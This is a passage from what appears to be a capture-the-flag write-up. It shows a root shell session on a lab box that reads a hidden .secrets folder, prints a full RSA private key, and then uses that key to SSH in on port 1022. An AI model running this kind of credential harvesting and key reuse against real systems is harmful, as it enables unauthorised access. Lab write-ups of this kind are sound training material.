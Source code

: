 ```bash
[root@calvin common]# ls -la
ls -la
total 20
drwxr-xr-x  5 root root 4096 Sep 23  2017 .
drwxr-xr-x 36 root root 4096 Nov 13  2017 ..
drwxrwxr-x  2 root root 4096 Sep 24  2017 .secrets
drwxr-xr-x  6 root root 4096 Sep 23  2017 containers
drwxr-xr-x  2 root root 4096 Sep 24  2017 network
[root@calvin common]# cd .secrets
cd .secrets
[root@calvin .secrets]# ls
ls
bastion_key
bastion_key.pub
[root@calvin .secrets]# cat bastion_key
cat bastion_key
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA8M2fLV0chunp+lPHeK/6C/36cdgMPldtrvHSYzZ0j/Y5cvkR
SZPGfmijBUyGCfqK48jMYnqjLcmHVTlA7wmpzJwoZj2yFqsOlM3Vfp5wa1kxP+JH
g0kZ/Io7NdLTz4gQww6akH9tV4oslHw9EZAJd4CZOocO8B31hIpUdSln5WzQJWrv
pXzPWDhS22KxZqSp2Yr6pA7bhD35yFQ7q0tgogwvqEvn5z9pxnCDHnPeYoj6SeDI
T723ZW/lAsVehaDbXoU/XImbpA9MSF2pMAMBpT5RUG80KqhIxIeZbb52iRukMz3y
5welIrPJLtDTQ4ra3gZtgWvbCfDaV4eOiIIYYQIDAQABAoIBAQDOIAUojLKVnfeG
K17tJR3SVBakir54QtiFz0Q7XurKLIeiricpJ1Da9fDN4WI/enKXZ1Pk3Ht//ylU
P00hENGDbwx58EfYdZZmtAcTesZabZ/lwmlarSGMdjsW6KAc3qkSfxa5qApNy947
QFn6BaTE4ZTIb8HOsqZuTQbcv5PK4v/x/Pe1JTucb6fYF9iT3A/pnXnLrN9AIFBK
/GB02ay3XDkTPh4HfgROHbkwwverzC78RzjMe8cG831TwWa+924u+Pug53GUOwet
A+nCVJSxHvgHuNA2b2oMfsuyS0i7NfPKumjO5hhfLex+SQKOzRXzRXX48LP8hDB0
G75JF/W9AoGBAPvGa7H0Wen3Yg8n1yehy6W8Iqek0KHR17EE4Tk4sjuDL0jiEkWl
WlzQp5Cg6YBtQoICugPSPjjRpu3GK6hI/sG9SGzGJVkgS4QIGUN1g3cP0AIFK08c
41xJOikN+oNInsb2RJ3zSHCsQgERHgMdfGZVQNYcKQz0lO+8U0lEEe1zAoGBAPTY
EWZlh+OMxGlLo4Um89cuUUutPbEaDuvcd5R85H9Ihag6DS5N3mhEjZE/XS27y7wS
3Q4ilYh8Twk6m4REMHeYwz4n0QZ8NH9n6TVxReDsgrBj2nMPVOQaji2xn4L7WYaJ
KImQ+AR9ykV2IlZ42LoyaIntX7IsRC2O/LbkJm3bAoGAFvFZ1vmBSAS29tKWlJH1
0MB4F/a43EYW9ZaQP3qfIzUtFeMj7xzGQzbwTgmbvYw3R0mgUcDS0rKoF3q7d7ZP
ILBy7RaRSLHcr8ddJfyLYkoallSKQcdMIJi7qAoSDeyMK209i3cj3sCTsy0wIvCI
6XpTUi92vit7du0eWcrOJ2kCgYAjrLvUTKThHeicYv3/b66FwuTrfuGHRYG5EhWG
WDA+74Ux/ste3M+0J5DtAeuEt2E3FRSKc7WP/nTRpm10dy8MrgB8tPZ62GwZyD0t
oUSKQkvEgbgZnblDxy7CL6hLQG5J8QAsEyhgFyf6uPzF1rPVZXTf6+tOna6NaNEf
oNyMkwKBgQCCCVKHRFC7na/8qMwuHEb6uRfsQV81pna5mLi55PV6RHxnoZ2wOdTA
jFhkdTVmzkkP62Yxd+DZ8RN+jOEs+cigpPjlhjeFJ+iN7mCZoA7UW/NeAR1GbjOe
BJBoz1pQBtLPQSGPaw+x7rHwgRMAj/LMLTI46fMFAWXB2AzaHHDNPg==
-----END RSA PRIVATE KEY-----
```

We find the private key for the user!

We give this appropriate perms with `chmod 600 id_rsa` and then we ssh into the box as erza. Another user in a docker container(you can see where this is going ahah).

`ssh -i id_rsa root@10.10.10.65 -p 1022` -  we are using ssh on port 1022 instead of 22 as it didnt work on 22.
